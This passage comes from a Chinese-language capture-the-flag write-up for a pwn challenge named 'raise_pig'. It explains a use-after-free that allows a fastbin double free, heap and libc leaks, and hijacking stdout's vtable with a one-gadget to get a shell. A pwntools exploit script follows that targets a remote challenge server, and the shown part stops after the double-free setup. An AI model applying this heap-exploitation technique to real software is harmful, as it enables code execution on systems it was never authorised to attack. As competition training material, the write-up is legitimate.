```python
cn.interactive()
```

### pwn - raise_pig

eat的时候没有考虑inuse,所以可以fastbin dup,再通过打印函数能轻易leak出heap和libc.

![](n1ctf_qwb_02189aa236a62ff345b7f53d8a925e76.png)


之后在heap上伪造好onegadget的vtable,利用house of sprit 就能去改stdout的vtable,getshell.

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 0

if local:
	cn = process('./raisepig')
	bin = ELF('./raisepig')
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
	cn = remote('39.107.32.132', 9999)
	bin = ELF('./raisepig')
	libc = ELF('./libc-64')


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()

def add(namelen,name,pigtype):
	cn.recvuntil("Your choice : ")
	cn.sendline('1')
	cn.recvuntil("Length of the name :")
	cn.sendline(str(namelen))
	cn.recvuntil('The name of pig :')
	cn.send(name)
	cn.recvuntil('The type of the pig :')
	cn.sendline(pigtype)

def visit():
	cn.recvuntil("Your choice : ")
	cn.sendline('2')

def free(idx):
	cn.recvuntil("Your choice : ")
	cn.sendline('3')
	cn.recvuntil('Which pig do you want to eat:')
	cn.sendline(str(idx))

def freeall():
	cn.recvuntil("Your choice : ")
	cn.sendline('4')

add(0x10,'0','0')
add(0x10,'1','1')
add(0x10,'2','2')
free(0)
free(1)
free(0)
```